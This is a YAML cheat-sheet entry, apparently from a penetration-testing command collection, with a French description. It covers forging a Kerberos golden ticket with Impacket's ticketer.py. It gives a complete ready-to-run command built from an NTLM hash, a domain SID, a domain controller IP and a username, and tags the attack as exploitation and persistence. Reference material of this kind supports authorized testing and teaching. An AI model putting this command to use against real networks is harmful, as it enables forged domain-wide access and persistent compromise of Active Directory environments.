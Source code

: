 ```yaml
---
description: |
  Le logiciel ticketer.py d'Impacket peut effectuer des attaques par ticket d'or, ce qui permet de créer un ticket TGT valide en utilisant le hachage NTLM d'un utilisateur valide. Il est alors possible d'accéder à n'importe quel service utilisant le TGT en demandant un TGS pour ce service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

